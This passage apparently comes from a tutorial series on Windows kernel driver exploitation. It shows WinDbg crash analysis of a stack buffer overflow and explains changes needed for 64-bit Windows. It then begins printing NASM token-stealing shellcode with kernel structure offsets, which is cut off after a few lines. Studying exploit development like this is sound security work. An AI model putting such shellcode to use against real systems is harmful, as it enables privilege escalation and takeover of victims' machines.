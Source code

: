 ![WinDbg Output](./images/6_windbg_output.png)

The three registers we thought would be clobbered are set to all `A`, which is exactly what we expected.  In addition, the top value on the stack (which is the return address) is set to all `B` at the time of the crash.  Looks like our assumptions above were correct.

## Modify the exploit for x64
The exploit will be more or less the same as the one outlined in the [last post](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/), but there are a couple of significant changes we'll need to make for 64 bit Windows.

First, the 64 bit VCC compiler does not allow for inline assembly.  This means we're back to the trusty method of compiling our shellcode with [NASM](https://www.nasm.us/) and saving it in the program as a byte string.

> It's actually possible to write all of the shellcode in C, which makes it a bit more stable and easy to look at.  However, there's enough complexity there that it's worthy of its own post, so I'm going to stick with the assembly version for the moment.

Here is the token stealing shellcode:

```asm
; Windows 8.1 Token Stealing Shellcode
; Author: @stolenfootball
; Website: https://stolenfootball.github.io

[BITS 64]

%define SYSTEM_PID      0x4

%define KTHREAD_OFFSET  0x188
%define EPROCESS_OFFSET 0xb8
%define FLINK_OFFSET    0x2e8
%define PID_OFFSET      0x2e0
%define TOKEN_OFFSET    0x348

_start:
    push rax                            ; Save register state
    push rbx
```